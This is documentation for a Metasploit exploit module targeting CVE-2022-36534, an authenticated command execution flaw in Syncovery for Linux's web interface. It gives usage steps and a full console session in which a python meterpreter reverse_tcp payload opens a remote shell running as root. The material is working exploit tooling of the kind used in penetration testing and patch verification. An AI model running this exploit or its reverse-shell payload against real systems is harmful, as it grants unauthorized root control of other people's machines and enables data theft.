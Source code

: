 ## Syncovery For Linux Web-GUI Authenticated Remote Command Execution

This module exploits an authenticated remote code execution vulnerability (CVE-2022-36534) in the Web GUI of Syncovery File Sync & Backup Software for Linux.
Syncovery allows an authenticated user to create jobs, which are executed before/after a profile is run.
Jobs can contain arbitrary system commands and will be executed as the user `root`.
A valid username and password or a session token is needed to exploit the vulnerability.

This affects Syncovery for Linux before v9.48j and all versions of the obsolete branch 8.

Installing a vulnerable version of Syncovery for Linux to test this vulnerability is quite easy.
Download a vulnerable version of Syncovery for Linux: https://www.syncovery.com/release/Syncovery-9.47a-amd64.deb
Install it and once the server is up, you can access it on port 8999 for testing...

## Authors

- Jan Rude (mgm security partners GmbH)

## Platforms

- Unix

## Verification Steps

1. `use exploit/unix/http/syncovery_linux_rce_2022_36534`
2. `set RHOSTS <TARGET HOSTS>`
3. `set LHOST <Address of Attacking Machine>`
4. `run`
5. You should get a meterpreter shell as the `root` user.

## Scenarios

### Syncovery for Linux with default credentials

```
msf6 > use exploits/unix/http/syncovery_linux_rce_2022_36534
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(unix/http/syncovery_linux_rce_2022_36534) > set rhosts 192.168.178.26
rhosts => 192.168.178.26
msf6 exploit(unix/http/syncovery_linux_rce_2022_36534) > set lhost 192.168.178.26
lhost => 192.168.178.26
msf6 exploit(unix/http/syncovery_linux_rce_2022_36534) > options

Module options (exploit/unix/http/syncovery_linux_rce_2022_36534):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   pass             yes       The password to Syncovery (default: pass)
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.178.26   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8999             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The path to Syncovery
   TOKEN                       no        A valid session token
   USERNAME   default          yes       The username to Syncovery (default: default)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.178.26   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Syncovery for Linux < 9.48j


msf6 exploit(unix/http/syncovery_linux_rce_2022_36534) > check
[+] 192.168.178.26:8999 - The target is vulnerable.
msf6 exploit(unix/http/syncovery_linux_rce_2022_36534) > run

[*] Started reverse TCP handler on 192.168.178.26:4444 
[+] 192.168.178.26:8999 - Exploit successfully executed
[*] Sending stage (40132 bytes) to 192.168.178.26
[*] Meterpreter session 1 opened (192.168.178.26:4444 -> 192.168.178.26:38008) at 2022-09-06 13:44:13 +0200

meterpreter > sysinfo
Computer        : kali
OS              : Linux 5.16.0-kali7-amd64 #1 SMP PREEMPT Debian 5.16.18-1kali1 (2022-04-01)
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > getuid
Server username: root
```
